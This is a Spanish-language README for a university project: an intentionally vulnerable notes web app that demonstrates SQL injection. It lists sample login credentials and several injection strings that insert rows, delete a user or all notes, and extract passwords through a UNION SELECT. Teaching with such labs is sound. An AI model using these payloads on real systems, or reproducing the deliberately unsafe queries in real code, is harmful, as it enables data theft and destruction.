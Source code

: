 # UTNAySO-InyeccionSQL

Este es un proyecto educativo para el Trabajo Práctico Integrador de la materia
Arquitectura y Sistemas Operativos de la Tecnicatura en Programación a Distancia de la UTN.

El mismo está diseñado para demostrar vulnerabilidades de inyección SQL en aplicaciones web.
La aplicación es un sistema simple de notas con autenticación de usuarios que contiene vulnerabilidades intencionales para fines de aprendizaje.

## Descripción

La aplicación permite:
- Iniciar sesión con diferentes usuarios
- Crear, ver y eliminar notas
- Buscar notas por contenido

Las vulnerabilidades de inyección SQL están presentes intencionalmente como herramienta educativa para comprender los riesgos de seguridad en aplicaciones web.

## Requisitos

- Python 3 instalado
- pip (gestor de paquetes de Python)

## Configuración del entorno virtual

### Windows

1. Abre una terminal en la carpeta del proyecto

2. Crea un entorno virtual:
   ```
   python -m venv .venv
   ```

3. Activa el entorno virtual:
   ```
   .\.venv\Scripts\activate
   ```


## Instalación de dependencias

Con el entorno virtual activado, instala las dependencias del proyecto:

```
pip install -r requirements.txt
```

## Ejecución de la aplicación

Ya con el entorno virtual esté activado:

1. Ejecuta la aplicación:
   ```
   python main.py
   ```

2. La aplicación estará disponible en: http://127.0.0.1:5000/

3. Se puede iniciar sesión con cualquiera de los siguientes usuarios de ejemplo:
   - Usuario: luciano, Contraseña: luciano123
   - Usuario: lucio, Contraseña: lucio123
   - Usuario: maximo, Contraseña: maximo123
   - Usuario: sebastian, Contraseña: sebastian123

## Ejemplos de inyección SQL

En el archivo `scripts.txt` encontrarás ejemplos de inyecciones SQL que pueden utilizarse para explorar las vulnerabilidades de la aplicación.


## Algunos ejemplos


*  Al crear una nueva nota en el apartado de contenido:
1. Agregar un usuario:
   - `contenido"); INSERT INTO usuarios (nombre, usuario, password) VALUES ("Hacker", "hackeado@mail.com", "hackeado"); --`
2. Agregar una nota:
   - `contenido"); INSERT INTO notas (usuario_id, titulo, contenido) VALUES (1, "Fuiste hackeado", "No tengas miedo"); --`
3. Eliminar un usuario
   - `contenido"); DELETE from usuarios WHERE id = 3; --`
4. E
  contenido"); DELETE from notas; --
  // al filtar una nota
  a%" UNION SELECT id, nombre, usuario, password FROM usuarios --

## Nota importante

Esta aplicación contiene vulnerabilidades intencionales y su propósito es únicamente educativo para comprender los riesgos de seguridad y la importancia de implementar prácticas seguras de programación.